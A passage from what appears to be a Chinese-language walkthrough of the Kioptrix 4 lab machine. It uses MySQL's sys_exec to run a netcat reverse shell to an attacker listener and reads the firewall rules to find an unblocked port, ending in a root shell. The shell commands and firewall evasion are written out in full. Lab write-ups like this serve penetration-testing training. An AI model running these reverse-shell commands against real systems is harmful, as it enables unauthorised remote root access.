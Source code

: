 在攻击机器上启动监听器：

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 4444             
listening on [any] 4444 ...
```

回到 MySQL shell：

```
mysql> select sys_exec('/bin/netcat 192.168.23.129 4444 -e /bin/bash');
```

但什么也没发生……

经过一番探测后，很明显这台机器可能使用了防火墙。我们可以搜索/etc任何iptables配置文件：

```
ohn@Kioptrix4:/tmp$ find /etc | grep -i iptables
find: /etc/chatscripts: Permission denied
find: /etc/ppp/peers: Permission denied
/etc/iptables.rules
john@Kioptrix4:/tmp$ cat /etc/iptables.rules
# Generated by iptables-save v1.3.8 on Mon Feb  6 20:00:52 2012
*filter
:INPUT ACCEPT [6150:1120650]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [969:93214]
-A INPUT -p tcp -m tcp --dport 4444 -j DROP 
-A INPUT -p tcp -m tcp --dport 1337:6000 -j DROP 
-A INPUT -p tcp -m tcp --dport 10000:31337 -j DROP 
-A INPUT -p tcp -m tcp --dport 8080 -j DROP 
-A OUTPUT -p tcp -m tcp --dport 4444 -j DROP 
-A OUTPUT -p tcp -m tcp --dport 1337:6000 -j DROP 
-A OUTPUT -p tcp -m tcp --dport 10000:31337 -j DROP 
-A OUTPUT -p tcp -m tcp --dport 8080 -j DROP 
-A OUTPUT -p tcp -m tcp --dport 80 -j DROP 
-A OUTPUT -p tcp -m tcp --dport 21 -j DROP 
COMMIT
# Completed on Mon Feb  6 20:00:52 2012
```

我们确实有一个防火墙专门丢弃端口 4444 上的传出数据包。它还阻止端口范围 1337-6000 和 10000-31337 上的传出数据包。让我们尝试使用这些范围之外的端口号。我就用9000

使用端口 9000 而不是 4444 重新启动攻击者的侦听器。然后在 MySQL shell 中：

```
mysql> select sys_exec('/bin/netcat 192.168.23.129 9000 -e /bin/bash');
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id:    1
Current database: *** NONE ***
```

我们收到错误，但在侦听器终端中，我们看到：

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9000
listening on [any] 9000 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.133] 60813
id 
uid=0(root) gid=0(root)
```
